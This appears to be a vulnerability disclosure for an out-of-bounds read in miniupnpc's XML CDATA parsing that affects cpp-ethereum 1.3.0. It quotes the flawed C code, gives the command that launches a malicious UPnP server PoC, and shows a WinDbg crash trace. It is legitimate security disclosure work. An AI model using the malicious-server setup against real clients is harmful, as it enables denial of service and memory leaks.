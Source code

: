Description:

When miniupnpc parses a xml, it fails to check the end of the xml buffer, which could lead to read out of bounds of the buffer.
This can cause DOS or information leak.

In function

void parseelt(struct xmlparser * p):


					if(memcmp(p->xml, "<![CDATA[", 9) == 0)		// (1)  Failed to do bound check prior to "memcmp" here
					{
						/* CDATA handling */
						p->xml += 9;
						data = p->xml;
						i = 0;
						while(memcmp(p->xml, "]]>", 3) != 0)


To test:

The poc was tested on windows 10 64-bits.

First start the malicious upnp server:

python poc.py --listen 127.0.0.1:65000 --target havoc


1. For cpp-ethereum 1.3.0


1.1 Enable page heap for cpp-ethereum:

The page heap helps to crash the client immediately when oob read occurs.

1.1.1 Install Windbg x64

1.1.2 Execute the following command to enable page heap for eth.exe:

"c:\Program Files\Debugging Tools for Windows (x64)\gflags.exe" /i eth.exe +hpa


1.2 Start eth to observe the crash:

C:\Users\test>C:\cpp-ethereum\cpp-ethereum\build64\eth\Release\eth.exe

Crash Info:

(c60.41b4): Access violation - code c0000005 (!!! second chance !!!)

VCRUNTIME140!memcmp+0x90:

00007ffa`6764c320 488b01          mov     rax,qword ptr [rcx] ds:000002aa`02afb000=????????????????

0:018> k

Child-SP          RetAddr           Call Site

000000f8`56ffeea8 00007ff6`65d9af8f VCRUNTIME140!memcmp+0x90 [f:\dd\vctools\crt\vcruntime\src\string\amd64\memcmp.asm @ 150]

000000f8`56ffeeb0 00007ff6`65d9abe3 eth!parsexml+0x3ff

000000f8`56ffef20 00007ff6`65d93b09 eth!parsexml+0x53

000000f8`56ffef50 00007ff6`65c15d46 eth!parserootdesc+0x89

000000f8`56ffeff0 00007ff6`65bf7378 eth!dev::p2p::UPnP::UPnP+0x236 [c:\cpp-ethereum\cpp-ethereum\libp2p\upnp.cpp @ 79]

000000f8`56fff300 00007ff6`65c0722c eth!dev::p2p::Network::traverseNAT+0x138 [c:\cpp-ethereum\cpp-ethereum\libp2p\network.cpp @ 183]

000000f8`56fff470 00007ff6`65c12a18 eth!dev::p2p::Host::determinePublic+0x71c [c:\cpp-ethereum\cpp-ethereum\libp2p\host.cpp @ 407]

000000f8`56fff8b0 00007ff6`65b87596 eth!dev::p2p::Host::startedWorking+0x208 [c:\cpp-ethereum\cpp-ethereum\libp2p\host.cpp @ 751]

000000f8`56fffa20 00007ff6`65b87917 eth!dev::validateFieldNames+0x5f6

000000f8`56fffc50 00007ff6`65aa37e9 eth!dev::validateFieldNames+0x977

000000f8`56fffc90 00007ffa`69d7dc05 eth!std::_Pad::_Call_func+0x9

000000f8`56fffcc0 00007ffa`6b921fe4 ucrtbase!thread_start<unsigned int (__cdecl*)(void * __ptr64)>+0x35

000000f8`56fffcf0 00007ffa`6d7bf061 KERNEL32!BaseThreadInitThunk+0x14

000000f8`56fffd20 00000000`00000000 ntdll!RtlUserThreadStart+0x21





Special Thanks:

I'd like to thank to "tintinweb" for his excellent work on CVE-2017-8798:


https://github.com/tintinweb/pub/tree/master/pocs/cve-2017-8798


I heavily reused his poc code in this poc